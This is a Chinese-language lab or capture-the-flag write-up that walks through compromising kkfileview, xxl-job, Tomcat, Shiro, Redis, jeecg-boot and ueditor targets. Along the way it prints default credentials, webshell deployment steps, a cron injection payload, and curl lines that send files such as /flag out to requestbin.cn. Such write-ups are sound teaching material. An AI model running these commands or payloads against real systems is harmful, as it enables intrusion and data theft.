经典渗透案例
kkfileview
访问靶机 web 页面，是一个登录页面：
尝试进行弱口令，但没有成功。
findsomething 插件发现了 /kkfileview/getCorsFile 路径：

网上搜索发现，kkfileview 的该路径存在漏洞，传一个 urlPath=file:///etc/passwd 能够进行任意本地文件读取。
尝试访问该路径，发现页面返回了 401 未授权，因此我们应该得登录之后才能使用了。
在一开始的登录页面进入开发者模式，发现一个 js 文件内有一个神秘的内容：

就是那个 researcher:Research#2026 ，看上去像是用户名和密码，尝试用该用户名密码登录，登录成功了：

于是访问刚才的 /kkfileview/getCorsFile?urlPath=file:///etc/passwd，结果没有读取成功：

按理来说就应该是这个漏洞，可能是我的利用方式有问题。
于是去网上搜索 getCorsFile 接口的用法，发现了如下的内容：

上面说调用的时候路径可能需要进行 base64 编码，于是给他 file:///etc/passwd 的 base64 编码 ?urlPath=ZmlsZTovLy9ldGMvcGFzc3dk，结果就成功下载了：

于是就尝试读取 flag ，但试了很多个 flag 的路径，都没有读到 flag，因此尝试读取一些可能存在有用信息的文件。
可能存在有用信息的文件一般有 /proc/self/cmdline /proc/self/environ /proc/self/fd/1 /root/.bash_history，以及各种 conf 文件等等。
其中在 /root/.bash_history 里面读到了一段信息：
cp /opt/kkfileview/cache/parsed/q1_finance_report_2026.zip /tmp/q1_finance_report_2026.zip
因此尝试下载那个 q1_finance_report_2026.zip 文件看看，结果里面就藏着 flag：

xxl-job
访问 web 页面，404 啥也没有：

不过我们提前知道这里的考点是 xxl-job ，说是正常的攻防当中 xxl-job 也长这样。
那我们直接搜搜 xxl-job 的默认页面路径，发现有 xxl-job 和 xxl-job-admin ，测试发现这里 xxl-job-admin 路径是存在的：

尝试进行弱口令探测，发现 admin:admin123 能够登录进去：

在网上搜索 xxl-job 能否进行命令执行，发现这篇文章里介绍了进行命令执行的方法。
在 任务管理 里新增一个任务，运行模式选择 GLUE(Shell)：

接着对这个任务进行编辑，选择 GLUE IDE ：

在里面直接就能写一个 bash 脚本，由于不能直接看到回显，因此我们用 http://www.requestbin.cn 这个网站把数据给带出来：
1 | curl -d "$(ls /)" http://www.requestbin.cn:80/1l52lhj1 |

接着读 flag 就好了：
1 | curl -d @/flag http://www.requestbin.cn:80/1l52lhj1 |

xxl-job RCE
1 | POST /run HTTP/1.1 |
tomcat
访问 web 页面：

上面说后台在 /manager/html 目录，那就访问这个目录，发现需要登录，tomcat 的默认密码为 tomcat:tomcat ，直接就进来了：

之后就是经典的 war 包部署从而进行 RCE 了，上传一个 Behinder 的木马，然后连接就好了。
以下为把 jsp 文件打包成 war 包的命令：
jar cvf shell.war shell.jsp
然后用 Behinder 连接就好了：

actuator + shiro
访问 web 页面，有一个登录的地方：

他自己给了用户名是 user ，尝试进行弱口令，用 user123 就进来了：

看上去那个 shiro_gcm_vertical_auth} 就是 flag 的一部分。
接着用 dirsearch 去进行目录扫描，扫出来了 actuator ，同时还有 heapdump：

heapdump 是 jvm 的堆转储，会泄漏很多信息。
先把 heapdump 给下载下来，再用 JDumpSpider 这个工具去从中提取信息，提取出来了 Shiro Key：

因此，使用 ShiroAttack2 尝试进行 shiro 反序列化漏洞的利用：


拿到了 part1 ，和一开始的 part2 拼一下就是完整的 flag。
redis
这道题是一个 redis 未授权 漏洞的题目，给的直接就是 redis 的端口，我们用 redis-cli 工具进行登录：
1 | redis-cli -h IP -p PORT |
一般来说，redis 未授权可以使我们有写入文件的功能，因此打法主要有 4 个：（1）往 web 目录里面写入 webshell；（2）写入自动化任务来进行 RCE；（3）写入 ssh 公钥；（4）主从复制，在自己的服务器上伪造一个 redis 的主机，让靶机远程加载一个恶意的 so 文件，从而实现 RCE 。
我们这里没有 web 页面，也不能 ssh ，因此尝试采用写入自动化任务的方式来进行。
一般来说，可以写入自动化任务的目录有 /etc/crontab /etc/cron.d /var/spool/cron /var/spool/cron/crontabs。
其中，/var/spool/cron 和 /var/spool/cron/crontabs 目录下，需要把文件名写为执行者的用户名，内容写为 * * * * * command 的形式；在 /etc/crontab 和 /etc/cron.d 中，写的内容形式 * * * * * username command 的形式。
redis-cli 中常见的命令有以下几个：
1 | config get dir #获取当前目录 |
在测试的时候，我们可以用 config set dir /etc/passwd 来测试某个文件是否存在，例如 config set dir /etc/passwd ，他会返回 Not a directory：

如果是一个不存在的文件，他会返回 No such file or directory：

因此，我通过这种方式测试出了 /root/flag.txt 文件是存在的，应该就是我们想要的 flag 。
这里我准备往 /var/spool/cron/crontabs/root 文件里面写入自动化任务，因此我们需要把 dir 设置为 /var/spool/cron/crontabs ，把 dbfilename 设置为 root。不知道为啥，我设置完 dir 之后，dir 会变成 /etc/crontabs ，估计靶机内部这是一个指向 /etc/crontabs 的软链接。
我尝试写入了用 requestbin 网站回显数据的 payload ，但没有成功，不知道是出了什么问题。
但我们还有一个方案，就是把 flag.txt 里的内容放入到 redis 的一个键值对里面，然后读取该键值对：
set payload "\n* * * * * redis-cli set flag \"$(cat /root/flag.txt)\"\n"
过了一小会儿，keys * 的结果就出现了 flag ，我们直接读就好了：

积木报表（jeecg-boot）
访问 web 页面，上面说内置积木报表组件：

所以就在网上找找积木报表的漏洞，发现了一个 RCE ：
1 | POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1 |
在此测试发现，/jmreport/queryFieldBySql 这个路径存在，且用 sleep 5 进行测试，发现可以进行命令执行，那就用 requestbin 网站把回显带出来就好了：
1 | { |

ueditor
访问 web 页面，findsomething 插件发现了 /ueditor/net/controller.ashx 路径，而且能够访问，说明 web 页面存在 ueditor。
网上搜索 ueditor 的漏洞，发现 /ueditor/net/controller.ashx?action=catchimage 路径用 POST 方法传递 source[]=http://hacker-ip/exp.aspx 可以上传木马。
但该页面传递 action=catchimage ，web 返回了不存在这个方法，因此我们传递 action=config 查看有哪些方法：

看到只有 uploadimage 和 uploadfile 两个 action ，因此让 AI 写了一个文件上传的 poc ，如下：
1 | <form action="http://IP:PORT/ueditor/net/controller.ashx?action=uploadfile" |
尝试用该 poc 上传文件，发现任意后缀名的文件都可以上传，那就可以直接上传木马了。
测试的时候发现，只有上传了 ashx 或者是 aspx 文件他才会解析并执行，其他类型的文件是不会解析的。
因从我们直接上传一个 aspx 的木马上去，然后执行命令就好了：
